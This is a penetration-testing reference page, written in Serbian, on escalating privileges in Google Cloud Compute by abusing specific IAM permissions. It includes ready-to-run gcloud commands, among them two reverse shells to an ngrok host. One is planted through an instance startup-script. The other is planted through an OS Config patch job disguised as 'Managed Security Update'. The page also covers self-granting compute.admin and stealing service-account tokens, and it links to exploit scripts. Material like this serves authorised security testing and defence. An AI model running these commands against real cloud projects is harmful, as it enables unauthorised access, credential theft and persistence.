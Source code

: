 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

Za više informacija o Compute i VPC (mreži) u GCP, proverite:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> Imajte na umu da je za izvođenje svih napada na eskalaciju privilegija koji zahtevaju modifikaciju metapodataka instance (kao što su dodavanje novih korisnika i SSH ključeva) **potrebno da imate `actAs` dozvole nad SA koji je povezan sa instancom**, čak i ako je SA već povezan!

### `compute.projects.setCommonInstanceMetadata`

Sa tom dozvolom možete **modifikovati** informacije o **metapodacima** **instance** i promeniti **ovlašćene ključeve korisnika**, ili **kreirati** **novog korisnika sa sudo** dozvolama. Stoga, moći ćete da se povežete putem SSH na bilo koju VM instancu i ukradete GCP Service Account sa kojom instanca radi.\
Ograničenja:

- Imajte na umu da GCP Service Accounts koji rade u VM instancama po defaultu imaju **veoma ograničen opseg**
- Moraćete da budete **u mogućnosti da kontaktirate SSH** server da biste se prijavili

Za više informacija o tome kako iskoristiti ovu dozvolu, proverite:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

Takođe možete izvesti ovaj napad dodavanjem novog startup-skripta i ponovnim pokretanjem instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ova dozvola daje **iste privilegije kao prethodna dozvola** ali za specifične instance umesto za ceo projekat. **Iste eksploatacije i ograničenja kao za prethodni deo se primenjuju**.

### `compute.instances.setIamPolicy`

Ova vrsta dozvole će vam omogućiti da **dodelite sebi ulogu sa prethodnim dozvolama** i eskalirate privilegije zloupotrebljavajući ih. Evo primera dodavanja `roles/compute.admin` na Servisni Nalog:
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se na instancu. Nećete imati root privilegije unutar instance.

> [!TIP]
> Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA koji je povezan sa VM.

### **`compute.instances.osAdminLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se na instancu. Imaćete **root privilegije** unutar instance.

> [!TIP]
> Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA koji je povezan sa VM.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Moguće je **napraviti virtuelnu mašinu sa dodeljenim Service Account-om i ukrasti token** servisa pristupajući metapodacima kako biste eskalirali privilegije.

Eksploatacijski skript za ovu metodu možete pronaći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ako imate dozvole **`osconfig.patchDeployments.create`** ili **`osconfig.patchJobs.exec`**, možete kreirati [**patch job ili deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Ovo će vam omogućiti da se lateralno krećete u okruženju i dobijete izvršavanje koda na svim instancama za obradu unutar projekta.

Napomena: u ovom trenutku **ne trebate `actAs` dozvolu** nad SA koji je povezan sa instancom.

Ako želite ručno da iskoristite ovo, biće potrebno da kreirate ili [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ili** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Za patch job pokrenite:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
Da biste implementirali ispravku:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Alat [patchy](https://github.com/rek7/patchy) je mogao biti korišćen u prošlosti za eksploataciju ove pogrešne konfiguracije (ali sada ne radi).

**Napadač takođe može zloupotrebiti ovo za postizanje trajnosti.**

### `compute.machineImages.setIamPolicy`

**Dodelite sebi dodatne dozvole** za compute Image.

### `compute.snapshots.setIamPolicy`

**Dodelite sebi dodatne dozvole** za disk snapshot.

### `compute.disks.setIamPolicy`

**Dodelite sebi dodatne dozvole** za disk.

### Obilaženje pristupnih opsega

Prateći ovaj link, pronaći ćete neke [**ideje za pokušaj obilaženja pristupnih opsega**](../).

### Lokalno eskaliranje privilegija u GCP Compute instanci

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## Reference

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}
